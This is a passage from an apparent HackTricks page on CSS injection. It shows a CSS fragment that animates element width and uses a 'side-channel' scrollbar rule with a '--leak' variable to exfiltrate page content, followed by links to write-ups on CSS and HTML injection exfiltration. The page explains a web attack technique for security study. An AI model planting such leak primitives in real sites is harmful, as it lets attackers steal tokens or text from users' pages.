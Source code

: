 ```css

/* increase width char by char, i.e. add new char to prefix */
@keyframes loop {
    0% { width: 0px }
    1% { width: 20px }
    2% { width: 40px }
    3% { width: 60px }
    4% { width: 80px }
    4% { width: 100px }
    5% { width: 120px }
    6% { width: 140px }
    7% { width: 0px }
}

div::-webkit-scrollbar {
    background: blue;
}

/* side-channel */
div::-webkit-scrollbar:vertical {
    background: blue var(--leak);
}
```

## References

* [https://gist.github.com/jorgectf/993d02bdadb5313f48cf1dc92a7af87e](https://gist.github.com/jorgectf/993d02bdadb5313f48cf1dc92a7af87e)
* [https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b)
* [https://infosecwriteups.com/exfiltration-via-css-injection-4e999f63097d](https://infosecwriteups.com/exfiltration-via-css-injection-4e999f63097d)
* [https://x-c3ll.github.io/posts/CSS-Injection-Primitives/](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
